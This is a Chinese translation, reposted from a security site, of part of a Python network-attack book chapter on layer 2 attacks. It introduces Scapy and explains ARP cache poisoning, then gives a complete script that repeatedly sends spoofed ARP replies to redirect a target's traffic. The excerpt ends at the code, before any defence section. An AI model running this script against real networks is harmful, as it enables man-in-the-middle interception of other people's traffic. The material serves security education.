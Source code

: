 > 原文链接: https://www.anquanke.com//post/id/82399 


# Python网络攻防之第二层攻击


                                阅读量   
                                **122007**
                            
                        |
                        
                                                                                    



        本章节节选翻译自《Understanding Network Hacks: Attack and Defense with Python》中的第四章Layer 2 Attacks。该书通过网络层次划分介绍漏洞，并使用Python编写相关利用工具进行网络攻防，每小节均按照“原理–代码–解释–防御”的结构行文，此书也可与《Python黑帽子:黑客与渗透测试编程之道》相互参照学习，相信会达到较好的效果呦。另译者水平有限，如有错误还请指正与海涵。<br>**<br>**

**0x00 摘要**

在本章第二层攻击当中，我们将进入网络hacking的奇幻之旅。让我们回顾一下，第二层是负责在以太网中，使用MAC地址来发送数据包。除了ARP攻击，我们将探讨交换机是如何应对DOS攻击的，以及如何逃逸出VLAN环境。<br>**<br>**

**0x01 需求模块**

在Python中，你不必在意原始套接字或网络字节顺序，借由Philippe Biondi编写的Scapy，具有世界上最好的数据包生成器，你可以轻松地定制数据包。既不像在Libnet和C中那样需要指针运算，也不像在RawIP和Perl中，或者是在Scruby和Ruby中，你会被有限的几种协议所束缚。Scapy可以构造从ARP到IP/ICMP，再到TCP/UDP和DNS/DHCP等所有OSI层上的数据包，甚至是更不常见的协议也同样被支持，比如BOOTP, GPRS, PPPoE, SNMP, Radius, Infrared, L2CAP/HCI, EAP。<br>        现在让我们在第二层网络上，使用Scapy来制造一些麻烦吧！首先你需要用如下的命令安装它：<br>

```
pip install Scapy
```

        现在你将步入经典著名的中间人攻击！<br>**<br>**

**0x02 ARP-Cache-Poisoning**

        如果一台主机想要发送IP数据包到另一台主机，就必须预先通过使用ARP协议请求目的MAC地址。这个询问会向网络中的所有成员广播。在一个完美的世界中，只有应答的主机是所需的目的主机。在一个不那么完美的世界中，攻击者会每隔几秒向它的受害者发送一个ARP应答报文，但是是以它自己的MAC地址作为响应，从而重定向该连接到其自身。因为大多数的操作系统都接受它们从未询问过的应答报文，所以该攻击才会生效！

```
#!/usr/bin/python
import sys
import time
from scapy.all import sendp, ARP, Ether    
 
if len(sys.argv) &lt; 3:
    print sys.argv[0] + ": &lt;target&gt; &lt;spoof_ip&gt;"
    sys.exit(1)    
 
iface = "eth0"
target_ip = sys.argv[1]
fake_ip = sys.argv[2]    
 
ethernet = Ether()
arp = ARP(pdst=target_ip,
                psrc=fake_ip,
                op="is-at")
packet = ethernet / arp    
 
while True:
        sendp(packet, iface=iface)
        time.sleep(10)
```
